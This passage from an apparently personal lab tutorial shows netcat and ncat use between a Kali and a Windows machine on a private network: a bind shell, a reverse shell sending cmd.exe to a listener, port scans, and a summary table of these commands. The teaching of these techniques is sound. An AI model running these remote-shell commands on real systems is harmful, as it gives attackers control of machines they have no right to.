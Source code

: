 
- In kali
````
nc 192.168.127.130 4444
````
<img width="422" height="151" alt="image" src="https://github.com/user-attachments/assets/716d48c8-933a-4afe-9cf6-670046e80a66" />

- We get a Windows CMD shell from Kali.

````
dir
````
<img width="522" height="670" alt="image" src="https://github.com/user-attachments/assets/709952b9-1ce4-406d-a778-fe63a21e44a4" />

In this we will see file in windows.



## 5. Reverse Shell (Windows connects back to Kali)
- Kali(listener)
````
nc -lvnp 4444
````
<img width="309" height="96" alt="image" src="https://github.com/user-attachments/assets/92484829-2476-4b9a-94f5-62aa6812615a" />


- Windows (send reverse shell to Kali):
````
ncat 192.168.127.128 4444 -e cmd.exe
````
<img width="581" height="203" alt="image" src="https://github.com/user-attachments/assets/65a08913-98fd-4005-b42e-9fa949638a00" />

- In kali we will see:
<img width="400" height="167" alt="image" src="https://github.com/user-attachments/assets/486b4562-cca0-4af0-85d0-bcaa682fa03c" />

- Now i control Windows shell on Kali.
- It the same like `Bind Shell (Windows waits, Kali connects)`


6. Port scanning
- From Windows scanning Kali:
````
ncat -zv 192.168.127.129 1-443
nmap -p 21,22,80,443 192.168.127.128
````
<img width="476" height="273" alt="image" src="https://github.com/user-attachments/assets/68715f63-2358-401e-baaf-284a8218eaae" />

- In netcat we will error but we can scan with nmap in windows.


### Summery command above:

| Task          | Windows Command                 | Kali Command           |
| ------------- | ------------------------------- | ---------------------- |
| Chat          | `nc.exe -l -p 4444`             | `nc winIP 4444`        |
| File transfer | `nc.exe -l -p 1234 > file`      | `nc winIP 1234 < file` |
| Bind shell    | `nc.exe -l -p 4444 -e cmd.exe`  | `nc winIP 4444`        |
| Reverse shell | `nc.exe kaliIP 4444 -e cmd.exe` | `nc -lvnp 4444`        |
| Port scan     | `nc.exe -zv kaliIP 20-100`      | `nc -zv winIP 1-1024`  |

